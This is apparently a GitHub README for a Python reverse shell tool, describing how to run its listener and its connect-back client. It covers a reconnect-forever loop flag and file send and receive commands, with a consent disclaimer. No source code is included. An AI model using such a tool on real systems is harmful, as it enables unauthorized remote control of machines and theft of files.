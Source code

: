 # Reverse Shell
This is a reverse shell script written in python.

## DISCLAIMER
**This comes with neither warranty nor working guarantee whatsoever. If you do, use at your own risk.
I do not accept any responsibility of any sorts. Don't use this on systems that you
have no written consent to do so.**

## Server 
```python3 server.py```
### arguments:
- ```-p "port"``` or ```--port "port"```
    - By default the server binds to port 41369.
    - To change to any other number use -p ... or --port ...
    - For example: if you want to run the server at port 22222
    - ```python3 server.py -p 22222``` or ```python3 server.py --port 22222```

### commands:
- To list all current connections type list

- To connect to a machine type their numeric id

- To receive a file file type ```receive "file"``` while in the client's console to receive a file(must be on the same dir)
    The file will be copied into a folder called received_files at the directory server.py runs at.

- To send a file type ```send "file"```. File to be sent must be in a directory called send that's in the same
directory as server.py. It must be run at the client's console and the file will be copied into the directory
the client shell is in.
    
## Client
```python3 client.py "ip" "port"```
### arguments:
- ip: the ip of the server(this is required)
- port: the port the server is bound to (this is also required)
- ```-v```, ```--verbose```: a verbose output of what the server is running in the local shell
- ```-l```, ```--loop```: the client program will never halt unless an outside kill signal is sent.
it will attempt to connect indefinitely
